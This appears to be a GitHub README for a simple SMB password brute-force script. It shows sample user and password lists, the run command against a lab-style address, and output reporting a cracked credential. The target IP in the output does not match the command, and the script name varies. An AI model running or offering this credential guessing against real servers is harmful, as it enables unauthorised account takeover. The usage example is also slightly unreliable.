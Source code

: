 # VSSB
Very simple SMB brute force
Considering the following file (containing a list of users):
`
kali@kali:~/Desktop$ cat usrs.txt  
pippo  
fsmith  
luca  
`

and the following file (containing a list of passwords):
`
kali@kali:~/Desktop$ cat pwds.txt  
123456
sandro
omg123!!!
Thestrokes23  
pippo
password  
`
you can use the scripts as follows:
`
kali@kali:~/Desktop$ ./simple-smb-bruteforce1.sh -u ./usrs.txt -p ./pwds.txt -s 10.10.10.123

parameter '-d' not set: using default WORKGROUP

Usernames list: ./usrs.txt
Passwords list: ./pwds.txt
Current domain: WORKGROUP
Target server : 10.10.10.175

starting...

Found WORKGROUP@fsmith:Thestrokes23

done!
`

usage: ./simple-smb-bruteforce.sh -u users.txt -p pswds.txt [-d DOMAIN] -s 10.10.10.123

